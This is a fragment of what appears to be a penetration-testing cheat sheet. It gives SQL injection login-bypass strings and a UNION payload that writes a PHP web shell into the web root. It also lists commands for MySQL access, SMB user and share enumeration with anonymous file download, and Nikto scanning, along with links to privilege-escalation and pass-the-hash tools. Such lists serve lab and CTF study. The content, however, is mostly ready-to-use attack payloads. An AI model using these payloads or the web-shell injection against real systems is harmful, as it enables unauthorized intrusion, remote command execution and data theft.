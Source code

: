 ```
<username>' OR 1=1--
'OR '' = '	Allows authentication without a valid username.
<username>'--
' union select 1, '<user-fieldname>', '<pass-fieldname>' 1--
'OR 1=1--
```
#### Get a Shell
```
' union select '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/html/shell.php' -- -
```

#### sqlcli
```
mysql -u openemr -p -h 192.168.132.145 --ssl=0
```

### Scaning & Enumeration

#### [Nmap](https://nmap.org/)

Enumerate the users on a remote Windows system
```
nmap --script smb-enum-users.nse -p445 <host>
sudo nmap -sU -sS --script smb-enum-users.nse -p U:137,T:139 <host>
```

#### [enum4linux](https://www.kali.org/tools/enum4linux/)
a tool for enumerating information from Windows and Samba systems

#### [smbclient](https://www.samba.org/samba/docs/4.17/man-html/smbclient.1.html)
```shell
smbclient -L DOMAIN --user USER

smbclient -L //10.211.11.10 -N
smbclient //10.211.11.10/SharedFiles -N

smb:> mget *
```

#### [Nikto](https://github.com/sullo/nikto)
```
nitko -h IP
```

### Gaining Access

#### [GTFOBins](https://gtfobins.github.io/)
list of Unix binaries which can escalate privileges
#### [Linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
search for possible paths to escalate privileges on Linux
#### [Winpeas](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)
search for possible paths to escalate privileges on Windows
#### [pspy](https://github.com/DominicBreuker/pspy)
unprivileged Linux process snooping
#### [Metasploit](https://github.com/rapid7/metasploit-framework)
#### [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit/)
A modified version of the passing-the-hash tool collection
